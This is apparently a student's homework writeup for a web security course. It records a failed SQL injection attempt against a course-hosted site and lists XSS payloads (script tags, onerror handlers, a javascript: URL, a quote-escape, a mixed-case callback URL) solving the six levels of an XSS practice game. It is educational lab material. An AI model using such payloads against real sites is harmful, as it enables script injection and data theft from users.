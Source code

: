 # Writeup 1 - Web I

Name: *PUT YOUR NAME HERE*
Section: *PUT YOUR SECTION NUMBER HERE*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *PUT YOUR NAME HERE*


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)
I was unable to figure this out. My 
"http://142.93.136.81:5000/item?id=1" O/**/R% 1=1;--
did not work to find the flag.
### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

Produce a writeup. We will not take off points for viewing the source code and/or viewing hints, but we strongly discourage reading online write-ups as that defeats the purpose of the homework.

Level 1: <script>alert('xxs')</script> Calls a basic alert script.
Level 2: <img href=xss-game.appspot.com/dog.jpg onerror="alert(xss)"> It tries to find an image, then triggers the on error alert.
Level 3: level3/frame#3' onerror='alert(0)'; Same as above. 3' is an invalid image.
Level 4: level4/frame?timer=')%3Balert(1)%3Bvar c=(' Escapes the code for the start-timer function, then triggers an alert.
Level 5: level5/frame/signup?next=javascript:alert(1) Changing the url causes the submit button to trigger an alert.
Level 6: level6/frame#HTTpS://google.com/jsapi?callback=alert The regex doesn't filter mixed uppercase or lowercase https domains. jaspi?callback=alert is an alert script.

### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.



### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
